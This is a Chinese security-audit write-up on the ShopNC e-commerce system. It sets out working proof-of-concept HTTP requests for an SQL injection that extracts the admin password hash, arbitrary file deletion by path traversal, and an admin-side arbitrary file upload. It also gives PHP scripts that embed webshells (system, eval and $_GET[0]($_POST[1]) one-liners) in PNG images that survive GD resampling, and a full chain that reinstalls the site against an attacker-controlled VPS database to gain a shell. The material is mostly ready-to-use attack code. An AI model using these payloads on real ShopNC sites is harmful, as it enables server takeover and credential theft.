<!--more--> 
# 文章亮点
1. 将PHP代码嵌入PNG的IDAT数据块（压缩的像素数据区）绕过裁剪图片（`imagecopyresampled`）
2. 构造恶意数组绕过格式化字符串进行Update、Insert语句的SQL注入
3. 组合利用案例演示

# 审计环境
+ ShopNC源码版本：2014.01.16.2490
+ OS：Windows 11 10.0.22631
+ 软件：phpStudy 2018
+ 中间件：Nginx 1.11.5
+ CLI解释器：PHP 5.6.27 With Xdebug v2.4.1
+ 数据库：Mysql 5.5.53
+ 编辑器：PhpStorm 2025.3.1.1

# 安装
1. 拉去源码，拉取后记得删除`shop/install/lock`文件。  
[https://github.com/angels13/shopnc](https://github.com/angels13/shopnc)
2. 安装好审计环境，主要是用phpStudy，PhpStorm只是用来断点调试的。
3. 注意Mysql配置时区，配置文件可以直接用phpStudy打开。

```shell
[mysqld]
default-time-zone=+08:00
```

4. 将源码目录复制到WWW目录下，不建议直接将文件放到根目录，所以将文件夹一起复制就行。访问后按照步骤输入数据库账户密码和管理员密码进行安装即可。
+ 系统管理默认地址: [http://localhost/shopnc/admin](http://localhost/shopnc/admin)
+ 网站首页默认地址: [http://localhost/shopnc](http://localhost/shopnc)
+ 如选择安装了演示数据，网站默认会员帐号和密码均为shopnc。
+ 网站默认商家帐号：shopnc_seller；密码：shopnc。 

### Mysql开启日志监测
为了找出SQL注入的地方需要监测执行的SQL语句，之前我用的是[Release MySQLMonitor · TheKingOfDuck/MySQLMonitor](https://github.com/TheKingOfDuck/MySQLMonitor/releases/tag/1.0)，但是我发现有一些命令执行了没有监测到，所以按照下面的步骤直接打开SQL日志看就行。

1. 开启日志

```sql
SHOW VARIABLES LIKE 'general_log%';
SET GLOBAL general_log = 'ON';
SHOW VARIABLES LIKE 'general_log%';
```

2. 打开powershell，替换`$file`路径，这里data目录就一个log文件，直接替换路径就行。然后通过Get-Content的Wait帮我们监控日志刷新内容就可以了。

```powershell
chcp 65001
$file = "D:\phpStudy\PHPTutorial\MySQL\data\xxx.log"
Get-Content -Path $file -Wait -Tail 0 -Encoding UTF8
```

# 审计结果
审计当然先得上[RIPS](https://github.com/ripsscanner/rips)、fortify工具扫一下，现在也有AI工具了，可以接入Claude帮助你更快的找到高危害漏洞。

### SQL注入
因为是update、insert语句的SQL注入，不允许再嵌套一个执行语句，从语法上就行不通。因为底层执行SQL查询的函数是`mysql_query`只能执行一条SQL语句。这两个限制导致这个SQL注入漏洞只能

主要原因是`parseValue`函数允许传入特殊数组，当数组第一个元素为文本`exp`时会将第二个元素不经过过滤就直接拼接到SQL语句中。例如：`['exp', '(select 1)']`

```powershell
core/framework/libraries/model.php parseValue 711
core/framework/libraries/model.php parseSet 1065
core/framework/libraries/model.php update($data,$options) 948
core/framework/libraries/model.php update($data='',$options=array()) 360
```

存在问题代码：

```php
protected function parseValue($value) {
    if(is_string($value) || is_numeric($value)) {
        $value = '\''.$this->escapeString($value).'\'';
    }elseif(isset($value[0]) && is_string($value[0]) && strtolower($value[0]) == 'exp'){
        $value   =  $value[1];
    }elseif(is_array($value)) {
        $value   =  array_map(array($this, 'parseValue'),$value);
    }elseif(is_null($value)){
        $value   =  'NULL';
    }
    return $value;
}
```

利用点，当传入的是数组，并且第一个元素为文本`exp`就直接返回第二个元素内容。

```powershell
elseif(isset($value[0]) && is_string($value[0]) && strtolower($value[0]) == 'exp'){
        $value   =  $value[1];
```

该函数被诸多地方被使用。



我找到了一处用户可以注册登陆后进入到`我的资料【用户中心】`，在更新用户资料时，会触发update语句，可以看到我们传入了数组。



抓包修改member_truename为数组，测试payload

```powershell
member_truename[0]=exp&member_truename[1]=user()
```



可以看到执行了我们注入的SQL语句。



提示保持成功后会自动刷新界面。



断点调试跟进



这里是从传输的参数中自动选择主键当作where条件。



进入到生成SQL语句的函数。



进入到拼接set语句的函数。



进入到对value处理的函数，可以看到我们进入了重要的一步`$value   =  $value[1];`直接返回我们设置恶意的SQL语句。



可以看到已经拼接成功了。



最后拼接成完整的SQL语句。



测试poc，注意是要登陆的情况下。

```powershell
POST /shopnc/shop/index.php?act=home&op=member&inajax=1 HTTP/1.1
Host: localhost
Content-Length: 325
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

form_submit=ok&old_member_avatar=avatar_1.jpg&privacy%5Bemail%5D=0&member_truename[0]=exp&member_truename[1]=user()&privacy%5Btruename%5D=0&member_sex=3&privacy%5Bsex%5D=0&birthday=&privacy%5Bbirthday%5D=0&province_id=&city_id=&area_id=&area_info=&privacy%5Barea%5D=0&member_qq=&privacy%5Bqq%5D=0&member_ww=&privacy%5Bww%5D=0
```

可以获取`admin_password`，但是`member_truename`类型为`varchar(20)`太短了，在其他地方的insert、update语句都存在这个漏洞。我找到了`收货地址->新建地址`

```powershell
(SELECT admin_password FROM shopnc.shopnc_admin WHERE admin_id=1)
```

效果图：



然后拿去CMD5解密即可。



你也可以使用下面的语句查询数据库密码，同样可以放到CMD5解密。

```powershell
select password from mysql.user limit 1;
```

### 任意文件删除
源码中存在很多unlink函数的使用，发现一处没有经过校验就直接删除文件的地方。主要是用到了`url`参数。

```powershell
circle/control/cut.php pic_cutOp 65
```

存在问题的代码：

```php
$src = str_ireplace(UPLOAD_SITE_URL,BASE_UPLOAD_PATH,$_POST['url']);
...
@unlink($src);
```

+ `UPLOAD_SITE_URL`为`define('UPLOAD_SITE_URL',$config['upload_site_url']);`在当前环境就是：`http://localhost/shopnc/data/upload/`
+  `BASE_UPLOAD_PATH`为`define('BASE_UPLOAD_PATH',BASE_DATA_PATH.'/upload');`在当前环境就是：`D:\phpStudy\PHPTutorial\WWW\shopnc\data\upload`

测试payload，使用时注意修改`http://localhost`部分，例如我有一级文件夹名称为`shopnc`就是`http://localhost/shopnc`

```php
url=http://localhost/shopnc/data/upload/../../shop/install/lock
```

替换后为：

```php
D:/phpStudy/PHPTutorial/WWW/shopnc/data/upload/../../shop/install/lock
```

测试poc，只需要修改url即可，注意要添加Cookie，其他参数随意，因为不重要。

```php
POST /shopnc/circle/index.php?act=cut&op=pic_cut HTTP/1.1
Host: localhost
Content-Length: 138
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

form_submit=ok&x1=-43&x2=7&w=50&y1=-30&y2=20&h=50&url=http://localhost/shopnc/data/upload/../../shop/install/lock&newfile=avatar_1_new.png
```

可以看到`url`被`str_ireplace`替换成了本地`data/upload`路径。



虽然这里会报错，是因为提供的文件路径，获取后发现不是图片文件，但是可以看到返回了`lock`说明成功执行了`$pathinfo['basename']`。



再一次刷新后就会进入到系统安装界面。



### 管理员后台任意文件上传
该漏洞存在于管理员后台的会员标签编辑处，当POST中带有`old_membertag_name`参数时会通过`$upload->set`修改`file_name`为用户输出的内容，这里可以改成任意的文件名并且可以目录穿越。

```php
admin/control/sns_member.php tag_editOp 132
```

存在问题的代码：

```php
if ($_POST['old_membertag_name'] != ''){
  $upload->set('file_name', $_POST['old_membertag_name']);
}
```

代码为参考文献1里的。

```php
<?php

if(count($argv) != 3) exit("Usage $argv[0] <PHP payload> <Output file>");

$_payload = $argv[1];
$output = $argv[2];

while (strlen($_payload) % 3 != 0) { $_payload.=" "; }

$_pay_len=strlen($_payload);
if ($_pay_len > 256*3){
    echo "FATAL: The payload is too long. Exiting...";
    exit();
}
if($_pay_len %3 != 0){
    echo "FATAL: The payload isn't divisible by 3. Exiting...";
    exit();
}

$width=$_pay_len/3;
$height=20;
$im = imagecreate($width, $height);

$_hex=unpack('H*',$_payload);
$_chunks=str_split($_hex[1], 6);

for($i=0; $i < count($_chunks); $i++){
    $_color_chunks=str_split($_chunks[$i], 2);
    $color=imagecolorallocate($im, hexdec($_color_chunks[0]), hexdec($_color_chunks[1]),hexdec($_color_chunks[2]));
    imagesetpixel($im,$i,1,$color);
}

imagepng($im,$output);
```

允许命令生成带有shell code的图片，也可以使用其他方式，因为这里只需要绕过`getimagesize`函数，让它认为是正常的图片就行。

```php
php gen.php "<?php @system($_POST['cmd']); ?>" payload.png
php gen.php "<?php @eval($_POST['ant']); ?>" payload.png
```



进入管理员后台，找到`会员->会员标签->新建->标签图片`，任意上传一张图片。然后任意填写其他字段，最后点击提交。



回到`会员->会员标签->标签管理`，找到我们新建的记录，点击编辑。



然后在`会员->会员标签->新建->标签图片`上传payload照片，抓包后添加新的字段。

```php
Content-Disposition: form-data; name="old_membertag_name"

../../payload.php
```



观察字段输入情况，发现已经将文件名设置成了我们想要的`../../payload.php`。



依旧绕过了`getimagesize`的检查，这里传的文件名就是png符合硬编码的allow_type数组内的白名单校验。



最后通过`move_uploaded_file`将我们恶意的file_name拼接到文件路径。



然后访问`http://localhost/shopnc/data/upload/payload.php`即可获得webshell。可以通过echo命令写入新的木马，也可以在生成图片时用不一样的payload。



测试POC：

```php
POST /shopnc/admin/index.php?act=sns_member&op=tag_edit&id=1 HTTP/1.1
Host: localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXCKI8sZgsLbdG0xR
Connection: keep-alive

------WebKitFormBoundaryXCKI8sZgsLbdG0xR
Content-Disposition: form-data; name="form_submit"

ok
------WebKitFormBoundaryXCKI8sZgsLbdG0xR
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundaryXCKI8sZgsLbdG0xR
Content-Disposition: form-data; name="old_membertag_name"

08226595474847548.png
------WebKitFormBoundaryXCKI8sZgsLbdG0xR
Content-Disposition: form-data; name="membertag_name"

dsfa
------WebKitFormBoundaryXCKI8sZgsLbdG0xR
Content-Disposition: form-data; name="membertag_recommend"

0
------WebKitFormBoundaryXCKI8sZgsLbdG0xR
Content-Disposition: form-data; name="membertag_sort"

0
------WebKitFormBoundaryXCKI8sZgsLbdG0xR
Content-Disposition: form-data; name="membertag_desc"

asdfadsf
------WebKitFormBoundaryXCKI8sZgsLbdG0xR
Content-Disposition: form-data; name="textfield"

C:\fakepath\payload.png
------WebKitFormBoundaryXCKI8sZgsLbdG0xR
Content-Disposition: form-data; name="old_membertag_name"

../../payload.php
------WebKitFormBoundaryXCKI8sZgsLbdG0xR
Content-Disposition: form-data; name="membertag_img"; filename="payload.png"
Content-Type: image/png

<payload.png>
------WebKitFormBoundaryXCKI8sZgsLbdG0xR--
```

### 绕过PHP-GD图片裁剪
这个方法主要用到了参考文献2，让图片经历过重采样复制和调整图像部分大小之后还能带有payload。结合了文件重命名可以命名为php文件的路径拼接漏洞，达到getshell的效果。

```php
core/framework/function/thumb.php resize_thumb 53
circle/control/cut.php pic_cutOp 60
```

存在问题的代码：

```php
if (!empty($_POST['filename'])){
  $save_file2 = BASE_UPLOAD_PATH.'/'.$_POST['filename'];
```

先通过以下代码创建payload图片

```php
<?
 
header('Content-Type: image/png');
 
$p = array(0xA3, 0x9F, 0x67, 0xF7, 0x0E, 0x93, 0x1B, 0x23, 0xBE, 0x2C, 0x8A, 0xD0, 0x80, 0xF9, 0xE1, 0xAE, 0x22, 0xF6, 0xD9, 0x43, 0x5D, 0xFB, 0xAE, 0xCC, 0x5A, 0x01, 0xDC, 0xAA, 0x52, 0xD0, 0xB6, 0xEE, 0xBB, 0x3A, 0xCF, 0x93, 0xCE, 0xD2, 0x88, 0xFC, 0x69, 0xD0, 0x2B, 0xB9, 0xB0, 0xFB, 0xBB, 0x79, 0xFC, 0xED, 0x22, 0x38, 0x49, 0xD3, 0x51, 0xB7, 0x3F, 0x02, 0xC2, 0x20, 0xD8, 0xD9, 0x3C, 0x67, 0xF4, 0x50, 0x67, 0xF4, 0x50, 0xA3, 0x9F, 0x67, 0xA5, 0xBE, 0x5F, 0x76, 0x74, 0x5A, 0x4C, 0xA1, 0x3F, 0x7A, 0xBF, 0x30, 0x6B, 0x88, 0x2D, 0x60, 0x65, 0x7D, 0x52, 0x9D, 0xAD, 0x88, 0xA1, 0x66, 0x94, 0xA1, 0x27, 0x56, 0xEC, 0xFE, 0xAF, 0x57, 0x57, 0xEB, 0x2E, 0x20, 0xA3, 0xAE, 0x58, 0x80, 0xA7, 0x0C, 0x10, 0x55, 0xCF, 0x09, 0x5C, 0x10, 0x40, 0x8A, 0xB9, 0x39, 0xB3, 0xC8, 0xCD, 0x64, 0x45, 0x3C, 0x49, 0x3E, 0xAD, 0x3F, 0x33, 0x56, 0x1F, 0x19 );
 
$img = imagecreatetruecolor(55, 55);
 
for ($y = 0; $y < sizeof($p); $y += 3) {
$r = $p[$y];
$g = $p[$y+1];
$b = $p[$y+2];
$color = imagecolorallocate($img, $r, $g, $b);
imagesetpixel($img, round($y / 3), 0, $color);
}
 
imagepng($img);
 
?>
```

执行命令

```php
php gen.php > payload.png
```

进入`个人主页->相册->上传更多照片`处上传payload.png。



观察返回包，可以看到提供了path和url。



这里需要修改一下url，因为url默认提供的是修改后的图片，不能正常当作png读取了。修改起来很简单，将`_240`去掉。



然后构造pic_cut请求，注意这里提交的参数，x1和y1都为0对应图片的源点坐标，x2和y2没有使用到，可以不用管。其他的值都需要为32，其中x的值会在`$scale = $thumb_width/$w`变成1，在`$newImageWidth = ceil($width * $scale);`后保持为32。注意这里使用头像裁剪修改成当前接口时，需要把`newfile=avatar_1_new.png`替换成`filename=shell.php`。

```php
POST /shopnc/circle/index.php?act=cut&op=pic_cut HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

form_submit=ok&x=32&x1=0&w=32&y1=0&h=32&url=http://localhost/shopnc/data/upload/shop/member/2/2_08230321886438744.png&filename=shell.php
```

断点后可以看到将我们提供的filename直接拼接到upload目录下了。



经过`imagecopyresampled($newImage,$source,0,0,0,0,32,32,32,32);`处理后由`imagepng`函数输出新的图片，而这里的路径为我们自定义的文件名。



此时可以看到shell.php中还包含着payload：`<?=$_GET[0]($_POST[1]);?>`



最后访问`/shopnc/data/upload/shell.php`就可以愉快的getshell了。



# 参考文献 
1. [Persistent PHP payloads in PNGs: How to inject PHP code in an image –](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there)
2. [La PNG qui se prenait pour du PHP](https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/)

# 案例演示
这个案例是结合任意文件删除+管理员后台任意文件上传完成getshell，其他路径：SQL注入+管理员后台任意文件上传、IDAT有效载荷。

### 创建Mysql服务
为了删除lock文件重装后提供数据库信息，我们需要预先在VPS上使用docker创建mysql。

```php
docker run -d --name mysql55 -p 3306:3306 -e MYSQL_ROOT_PASSWORD=root mysql:5.5
```

### 删除lock文件


在`设置->个人资料->更换头像`上传图片并抓取裁剪的数据包。



修改抓到的修改成可以任意文件删除的数据包，删除lock文件。



再次访问是进入到安装向导界面。

### 重装系统


进入安全后，填写VPS IP以及数据库的账户密码，自定义管理员账户。数据库密码为root，docker语句有设置。



然后进入下一步安装数据库。



### 后台getshell
访问`/admin`进入管理员后台界面，使用管理员账号进行登陆。



创建会员标签。



编辑并上传payload图片。



getshell




